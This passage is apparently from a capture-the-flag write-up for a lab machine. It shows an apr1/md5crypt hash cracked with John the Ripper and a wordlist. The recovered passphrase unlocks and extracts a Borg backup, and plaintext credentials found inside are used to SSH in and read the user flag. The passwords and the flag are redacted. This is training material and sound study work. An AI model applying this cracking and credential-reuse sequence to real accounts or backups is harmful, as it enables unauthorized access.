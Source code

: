 ```bash
$ echo "music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn." > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash -force
  Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
  Use the "--format=md5crypt-long" option to force loading these as that type instead
  Using default input encoding: UTF-8
  Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  [removed]        (music_archive)
  1g 0:00:00:00 DONE (2025-01-23 06:07) 11.11g/s 443733p/s 443733c/s 443733C/s jeremy21..pirilampo
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
```
With the cracked password I was able to interact with the archive:
```bash
$ borg list home/field/dev/final_archive/
    Enter passphrase for key /home/kali/ctf/cyborg/home/field/dev/final_archive:
    music_archive                        Tue, 2020-12-29 09:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
I tried to decrypt the archive:
```bash
$ borg extract home/field/dev/final_archive::music_archive
  Enter passphrase for key /home/kali/ctf/cyborg/home/field/dev/final_archive:
```
and a new folder named `alex` appeared
```bash
$ ls -al
  total 64
  drwxr-xr-x 12 kali kali 4096 Dec 29  2020 .
  drwxrwxr-x  4 kali kali 4096 Jan 23 06:09 ..
  -rw-------  1 kali kali  439 Dec 28  2020 .bash_history
  -rw-r--r--  1 kali kali  220 Dec 28  2020 .bash_logout
  -rw-r--r--  1 kali kali 3637 Dec 28  2020 .bashrc
  drwx------  4 kali kali 4096 Dec 28  2020 .config
  drwx------  3 kali kali 4096 Dec 28  2020 .dbus
  drwxrwxr-x  2 kali kali 4096 Dec 29  2020 Desktop
  drwxrwxr-x  2 kali kali 4096 Dec 29  2020 Documents
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Downloads
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Music
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Pictures
  -rw-r--r--  1 kali kali  675 Dec 28  2020 .profile
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Public
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Templates
  drwxrwxr-x  2 kali kali 4096 Dec 28  2020 Videos
```
I searched around and found something intersting:
```bash
$ cat secret.txt
  shoutout to all the people who have gotten to this stage whoop whoop!"
$ cat note.txt
  Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
  
  alex:[removed]
```
The credentials where valid to ssh into the machine and get the user flag:
```bash
$ ssh alex@10.10.48.122
  alex@ubuntu:~$ cat user.txt
  flag{*** removed ***}
```
